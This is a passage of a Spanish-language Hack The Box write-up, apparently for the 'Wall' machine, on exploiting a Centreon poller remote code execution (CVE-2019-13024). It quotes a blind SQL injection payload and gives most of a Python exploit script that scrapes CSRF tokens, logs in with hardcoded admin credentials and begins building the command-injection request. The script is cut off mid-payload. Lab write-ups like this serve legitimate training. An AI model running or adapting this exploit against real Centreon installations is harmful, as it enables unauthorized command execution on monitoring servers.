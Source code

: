 ----------------------------
# Part 3: Explotando un RCE en Centreon

En searchploit hay dos exploit principales:  
- Un blindsqli -> ```/include/monitoring/acknowlegement/xml/broker/makeXMLForAck.php?hid=15&svc_id=1 AND (SELECT 1615 FROM SELECT(SLEEP(5)))TRPy)```  
- Pollers RCE  

Pollers RCE dice que:  
- irse a /centreon/main.php?p=60803&type=3 (Configuration > Commands > Miscellaneous)  
![](/assets/images/htb-wall/wall4.PNG)
  

Hay un script que explota este Poller RCE -> 47069.py (CVE-2019-13024/@mohammadaskar2)  
He creado un exploit basado en el de esta persona solo que usando librerias mas simples y todo adaptado a esta máquina. He simplicado su script todo lo posible 
pero que siga siendo funcional y he añadido un código de estado para ver como se comportan los comandos

```python
#!/usr/bin/python
import re
import requests
import sys

url = "http://10.10.10.157/centreon"
command = sys.argv[1]
sess = requests.session()
print("[+] Iniciando el exploit...")

# Primera petición para conseguir el token
req1 = sess.get(url + "/index.php") 
token = re.findall(r'<input name="centreon_token" type="hidden" value="(.*?)" />', req1.text)[0]

# Segunda petición: login a index php con las credenciales que hemos conseguido
data = { "useralias": "admin", "password": "password1", "submitLogin": "Connect", "centreon_token": token}
login = sess.post(url + "/index.php", data=data)
print(f"    >  Token -> {token}")
print("    >  Logueado!")

# Tercera petición: conseguir el token (siguiendo exl exploit, el tercer "centreon_token")
poller_conf = url + "/main.get.php?p=60901"
poller = sess.get(poller_conf)
poller_token = re.findall(r'<input name="centreon_token" type="hidden" value="(.*?)" />', poller.text)[2]
print(f"    >  Poller token: {poller_token}")

# Cuarta petición: mandando el payload ( Configuration > Commands > Miscellaneous )
payload = {
    "name": "Central",
    "ns_ip_address": "127.0.0.1",
    "localhost[localhost]": "1",
    "is_default[is_default]": "0",
    "remote_id": "",
```